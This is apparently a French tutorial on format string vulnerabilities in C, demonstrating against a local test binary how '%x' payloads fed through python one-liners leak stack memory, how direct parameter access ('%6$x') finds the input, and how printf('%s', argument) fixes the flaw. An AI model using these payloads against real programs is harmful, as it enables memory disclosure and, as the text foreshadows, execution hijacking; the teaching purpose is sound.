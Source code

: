 L'exécution est simple:
![fmt1]({{ site.url }}/public/images/fmt/fmt1.png)

Fuzzons juste pour vérifier que le fgets fait bien son boulot et que nous évitons un débordement classique:
![fmt2]({{ site.url }}/public/images/fmt/fmt2.png)

Maintenant faisons un autre test:
```bash
#python -c 'print "%x"*100' | ./simple
Your input: 65b7fb05a0b7fffc08bffff27f025c10000257825782578257825782578257825782578257825782578257825782578257825782578257825782578257825782578257825782578257825782578257825782578257825782578257825782578257825782578257825782578257825782578782578b7fb03dcbffff2f00b7e152761b7fb00000b7e152761bffff384bffff38c000b7fb0000b7fffc04b7fff00001Au revoir
```
  
Wowowo ça y est je suis l'élu, je sais lire la matrice?!  
  
Ce qui se passe ici est du au ```printf(argument);```. Ceci est valable avec toutes les fonctions similaires printf, fprintf, sprintf, snprintf, vprintf, vfprintf, vsprintf, vsnprintf.  
  
La version secure aurait été ```printf("%s",argument);``` pour forcer l'interprétation des données en tant que chaine de caractères:
```bash
Your input: 
%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x
%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x
Au revoir
```  
  
Avec ```printf(argument);```, vous pouvez injecter des formateurs qui demanderont à la fonction printf de dépiler de la stack autant d'arguments que de formateurs. Ceci nous permettra de lire la mémoire de notre exécutable et nous le verrons d'écraser des adresses pour rediriger vers notre flot d'exécution.  
  
Avez-vous remarqué la suite **25782578257825782578** affichée avec le formateur **%x** ?:
```bash
echo -n 2578 | xxd -p -r
%x
```
  
Nous pouvons lire depuis la mémoire notre argument passé à notre exécutable.
```bash
python -c 'print "A"*20 + "-%x"*20' | ./simple
Your input: 
AAAAAAAAAAAAAAAAAAAA-65-b7fb05a0-b7fffc08-bffff27f-0-41c10000-41414141-41414141-41414141-41414141-2d414141-252d7825-78252d78-2d78252d-252d7825-78252d78-2d78252d-252d7825-78252d78-2d78252d
Au revoir
```  
```bash
python -c 'print "A"*23 + "-%6$x"' | ./simple
Your input: 
AAAAAAAAAAAAAAAAAAAA-41c10000
Au revoir
```  
